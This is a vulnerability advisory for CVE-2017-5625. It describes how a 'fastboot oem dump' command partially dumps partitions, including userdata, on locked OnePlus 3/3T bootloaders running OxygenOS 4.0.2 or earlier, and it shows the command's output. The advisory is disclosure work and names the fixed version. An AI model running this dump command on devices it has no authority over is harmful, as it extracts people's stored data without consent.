 ```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'report'
      date: '2017-01-23'    
    - type: 'add'
      date: '2017-03-01'
    - type: 'cve-assign'
      date: '2017-01-29'    
    - type: 'cve-request'
      date: '2017-01-25'
    - type: 'release'
      date: '2017-04-25'
    - type: 'patch'
      date: '2017-03-20'
      
cve: CVE-2017-5625
alephid: ALEPH-2017006     
date: '2017-04-25'
product:
    - OnePlus 3T
    - OnePlus 3
title: 'OnePlus 3/3T OxygenOS Unauthorized Flash Dumping via fastboot'
severity: moderate
summary: A physical attacker, PC malware / malicious charger having ADB or fastboot access to the device can cause a locked bootloader to partially dump the content of an arbitrary partition (except `keystore`) by issuing the `fastboot oem dump <partition>` fastboot command.
vulnerable:
    - 'OxygenOS 4.0.2 and earlier'
mitigation: 'Install OxygenOS 4.0.3 or later'
---
```

The bootloader's fastboot interface must not allow any security-sensitive operation to be run unless the bootloader is unlocked. However, in the affected OnePlus devices and OxygenOS versions, one could partially dump the content of any partition (except keystore):

```terminal
> fastboot oem dump userdata
[...]
(bootloader) Dump partition: userdata
(bootloader) C0C7A7D7DFE7BA0214A21F3366313AF2DA7B36AEF27B5C40694D9534B2D
(bootloader) 3B19C068DEED8C7D333037AB6B770494DD054076171B1D33555C7EEC3FB
(bootloader) E793F5692B86E95D4D697FA98966D82E256103641605149439404A89309
(bootloader) 9EFFB47DFC976857BDE7D388A0DC45B84A97CCD7A0F9CD592EE50D6D6EE
(bootloader) 239E3D9829DFC8627A0F19D8D73FE258A7B576C31DACBAB0EB8B5D01679
(bootloader) B78A8C51D338385A853E4E2A3DBA2A873FC707BEE052F56168050964B94
[...]
```
And indeed the data is correct:
```terminal
OnePlus3:/dev/block/bootdevice/by-name # head userdata | od -tx
0000000 c0c7a7d7 dfe7ba02 14a21f33 66313af2
0000020 da7b36ae f27b5c40 694d9534 b2d361fa
0000040 2cd4f050 79e5e97c 55be1782 b34fbfef
0000060 1edc578b b8cdaf6d 24dfaf1b d7461400
0000100 3b19c068 deed8c7d 333037ab 6b770494
0000120 dd054076 171b1d33 0555c7ee c3fb029b
0000140 4f92d8a2 2af74432 e07bf276 42e3639e
0000160 d5979e35 7cd4adcb ed181221 09a484d1
```
One may argue that this is not an issue because userdata is encrypted, however please note that:
1. Google has recently patched a vulnerability with a similar impact in Pixel ([CVE-2016-8462](https://securityresear.ch/2017/01/04/fastboot-oem-sha1sum/)). It was rated with 'High' severity. 
2. Other vulnerabilies (if found) can be used in order to leak the [AES master key](https://android.googlesource.com/platform/system/vold/+/android-7.1.1_r38/cryptfs.c) from memory.